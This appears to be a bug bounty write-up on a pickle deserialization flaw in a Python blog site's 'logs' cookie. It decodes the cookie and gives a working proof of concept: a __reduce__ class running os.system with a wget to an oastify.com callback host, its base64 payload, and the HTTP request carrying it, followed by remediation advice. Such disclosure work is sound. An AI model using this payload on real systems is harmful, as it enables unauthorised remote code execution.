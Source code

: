 ## Description

The "Deserialization of untrusted data" vulnerability occurs when an application accepts and deserializes data from an untrusted source without proper validation. Serialization converts objects into a format that can be stored or transmitted, and deserialization converts this format back into objects. If the data comes from an untrusted source and is not properly validated, an attacker can manipulate this data to create malicious objects, leading to arbitrary code execution, privilege escalation, or other attacks.

In this case, the `logs` cookie is added when a user accesses the registration or login page (`/register` or `/login/`). This allows exploitation without having an account on the site.

![Log Cookie](YWH-R303744-image.png)

![Serialized Log](YWH-R303753-image.png)

## Exploitation

The `logs` cookie is serialized using Python's `pickle` module and encoded in base64. We can use the `pickletools` module to verify this by decoding the base64 string and analyzing the serialized data.

```python
import base64
import pickletools

c = "gASVSwAAAAAAAACMFWJsb2dfRElZLmxvZ3NfbWFuYWdlcpSMBExvZ3OUk5QpgZR9lCiMCHVzZXJuYW1llIwMVG90b3RvdG8xMjMhlIwDbG9nlIh1Yi4="
cb = base64.b64decode(c.encode())
print(cb)
# b'\x80\x04\x95K\x00\x00\x00\x00\x00\x00\x00\x8c\x15blog_DIY.logs_manager\x94\x8c\x04Logs\x94\x93\x94)\x81\x94}\x94(\x8c\x08username\x94\x8c\x0cTotototo123!\x94\x8c\x03log\x94\x88ub.'

pickletools.dis(cb)
# Output:
#  0: \x80 PROTO      4
#  2: \x95 FRAME      75
# 11: \x8c SHORT_BINUNICODE 'blog_DIY.logs_manager'
# 34: \x94 MEMOIZE    (as 0)
# 35: \x8c SHORT_BINUNICODE 'Logs'
# 41: \x94 MEMOIZE    (as 1)
# 42: \x93 STACK_GLOBAL
# 43: \x94 MEMOIZE    (as 2)
# 44: )    EMPTY_TUPLE
# 45: \x81 NEWOBJ
# 46: \x94 MEMOIZE    (as 3)
# 47: }    EMPTY_DICT
# 48: \x94 MEMOIZE    (as 4)
# 49: (    MARK
# 50: \x8c     SHORT_BINUNICODE 'username'
# 60: \x94     MEMOIZE    (as 5)
# 61: \x8c     SHORT_BINUNICODE 'Totototo123!'
# 75: \x94     MEMOIZE    (as 6)
# 76: \x8c     SHORT_BINUNICODE 'log'
# 81: \x94     MEMOIZE    (as 7)
# 82: \x88     NEWTRUE
# 83: u        SETITEMS   (MARK at 49)
# 84: b    BUILD
# 85: .    STOP
```

## PoC

The `__reduce__` function in Python allows customizing the serialization of an object using the `pickle` module. In this context, it is used to inject arbitrary code into the `logs` cookie. The base64 string `gASVUAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjDV3Z2V0IGd6ajU3aGsxYW0zNjBtb3BxOHM4enM4cmdpbTlhenlvLm9hc3RpZnkuY29tP1JDRZSFlFKULg==` represents serialized data that uses the `__reduce__` function to execute `os.system()` during deserialization.

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('wget gzj57hk1am360mopq8s8zs8rgim9azyo.oastify.com?RCE')
        return os.system, (cmd,)

pickled = pickle.dumps(RCE())
print(base64.urlsafe_b64encode(pickled).decode())
```

When the server deserializes the `logs` cookie, it executes the `os.system()` command with the specified arguments, enabling remote code execution. Verification of successful exploitation can be confirmed by observing HTTP and DNS requests from the victim server to our webhook.

```
GET / HTTP/1.1
Host: 49p6p0fv.3xploit.me
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://49p6p0fv.3xploit.me/search_tutorial/
DNT: 1
Connection: close
Cookie: logs="gASVUAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjDV3Z2V0IGd6ajU3aGsxYW0zNjBtb3BxOHM4enM4cmdpbTlhenlvLm9hc3RpZnkuY29tP1JDRZSFlFKULg=="; csrftoken=Nkl0arpsnnYHCuv95c1of8BWjNk4wTBD
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
X-PwnFox-Color: green
```

![Exploitation Result](YWH-R303747-image.png)

## Remediation

To protect against deserialization vulnerabilities, several remediation measures can be implemented:

1. **Validate Data Before Deserialization**: Ensure that serialized data comes from a trusted source and does not contain malicious code. This can be done using filters, signatures, or sophisticated validation mechanisms.
2. **Use Safe Serializers**: Prefer serializers that limit functionalities available during deserialization, such as JSON or XML, which do not allow arbitrary code execution.
3. **Limit Object Permissions**: Restrict the permissions of deserialized objects to prevent unauthorized actions. Use sandboxes, security policies, or access control mechanisms.
4. **Update Serialization Libraries**: Keep serialization libraries up-to-date to patch known vulnerabilities and protect against new threats.

In the described exploitation, a potential remediation measure would be to validate serialized data before deserialization to ensure it does not contain malicious code. Additionally, using a safe serializer like JSON or XML is recommended to avoid deserialization vulnerabilities.

# Author
ENSIBS-GCC_Chasseur_de_bogue